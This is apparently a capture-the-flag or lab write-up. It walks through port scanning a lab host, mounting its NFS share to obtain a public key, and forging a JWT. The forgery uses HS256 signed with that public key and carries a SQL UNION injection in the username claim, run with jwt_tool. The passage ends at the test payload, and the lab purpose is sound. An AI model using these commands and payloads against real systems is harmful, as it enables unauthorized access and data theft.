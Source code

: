 nmap

```
PORT      STATE SERVICE
22/tcp    open  ssh
80/tcp    open  http
111/tcp   open  rpcbind
2049/tcp  open  nfs
37977/tcp open  unknown
40423/tcp open  unknown
41035/tcp open  unknown
42825/tcp open  unknown
57877/tcp open  unknown
111/udp   open  rpcbind
33779/udp open  unknown
50918/udp open  unknown
57140/udp open  unknown
57739/udp open  unknown
58802/udp open  unknown
```

Trying to mount the share folder through NFS service.

```shell
showmount -e 192.168.216.222
mkdir /tmp/test_folder
sudo mount -t nfs 192.168.216.222:/mnt/share /tmp/test_folder -o nolock
```

Finding a public key but don't know where to use it. 

Next, checking the website. After trying to register many accounts, I find an existing account `brain` the web admin shows on the contacts page.



Registering account on the web page and check the session is JWT. We refer to this [article](https://infosecwriteups.com/attacking-json-web-tokens-jwts-d1d51a1e17cb) for testing.

JWT SQL injection

```shell
git clone https://github.com/ticarpi/jwt_tool.git
cd jwt_tool
python3 jwt_tool.py <token> -I -pc <Payload claim to tamper with> -pv "<sql command>" -S hs256 -k public.pem
# pc = payload claim to tamper with
# public.pem = public key from NFS
```

Our test payload

```
python3 jwt_tool.py eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNjY1NTg3MzE4fQ.pi_Q8MWnXPtCDhgGcu5yQrjwuPWdgmyHnb7R5eqfBMsAx8UUb-jJ7rvw4bwbqNoucm8STXQweQ_VZwtXka2MCwVMbYSleb4HBa5glk7TdYfq6VATRLXgOU1hKEq1_bJnt5CZhZsBSpiupf2TetA1CeoOAP4Az8h7YAPRNGumJ-rP1z8G3M9uVhfgEJQce4OFNMfLRjFgynPlh9Ekg9ElzdGAUPmv_XjFQnEHLzICW5S6n_8b8siRZFSyNY3A-NcMT-c4D-LqM0WlU_IKdTXoL4vFOc88Yiw0mur51Nokz53xOvEJCEqWndPtOu-uTFKp_e3haNRllEHb3CFvuGi8sepuJil-sW0kZZ8zGtqf4nT4ET4Y6gGAw6qpXoon8ZdC_VfAauuh8gVm11JPbhbXbHsuYSKkdbOOd1p-SemWp9J8-QzB5vyIBql4av8OQ7SiQG9CUUNyg_YDzdPNW3GwzvlTbBArODb4L7BEsOvAsGdTSqimSPI7SWff3I2UdXvo7TfaLXShal_IAnMfh7C96WV8kGHPuRoAd7tikK72vNno2THv1JrvyL4aX3WJ84T3INDzInkNjCGexUk29Q31yZVG4eGZKF7Kbto-rXOryCHfg-JalDmzrOiCh14dDYl6o5YQv4XGFxBke7ucytBi5XO-BZSc8V2NCn9h2v8b88U -I -pc username -pv " ' UNION SELECT 1, 2, 3 --  " -S hs256 -k public.pem
```